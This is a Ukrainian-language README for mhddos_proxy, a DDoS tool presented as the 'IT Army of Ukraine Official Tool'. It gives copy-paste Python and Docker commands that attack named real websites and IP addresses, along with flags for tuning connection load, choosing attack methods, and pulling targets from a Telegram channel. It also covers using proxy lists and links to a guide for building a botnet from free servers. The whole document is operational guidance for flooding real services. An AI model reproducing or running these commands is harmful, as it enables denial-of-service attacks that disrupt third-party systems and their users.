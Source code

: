 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **21.05.2022**
  - Додано англійську локалізацію - прапорець `--lang EN` (в майбутньому можуть бути додані інші мови)

- **18.05.2022**
  - Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності
  - Додано методи `RGET`, `RHEAD`, `RHEX` та `STOMP`.

### 💽 Встановлення - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск (наведено різні варіанти цілей)

#### Python (якщо не працює - просто python або python3.10 замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовчуванням 7500 (або 1000 якщо на машині лише 1 CPU).

    python3 runner.py -t 5000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід роботи, додайте прапорець  `--debug` для тексту, `--table` для таблиці.

    python3 runner.py --debug https://ria.ru https://tass.ru
    
Щоб обрати цілі від https://t.me/itarmyofukraine2022 додайте параметр `--itarmy`  

    python3 runner.py --itarmy --debug

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {EN,UA}         Select language (default is UA)

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі формат буде таким:

    socks4://114.231.123.38:3065

а для приватного формат може бути одним з таких:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
